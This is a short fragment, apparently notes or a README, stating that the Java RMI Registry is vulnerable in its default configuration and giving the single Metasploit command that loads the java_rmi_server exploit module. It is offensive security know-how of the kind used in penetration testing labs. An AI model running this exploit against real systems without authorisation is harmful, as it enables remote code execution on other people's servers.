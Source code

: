 The Java RMI Registry service is vulnerable in it's default configurations.

## Exploit
	msf > use exploit/multi/misc/java_rmi_server
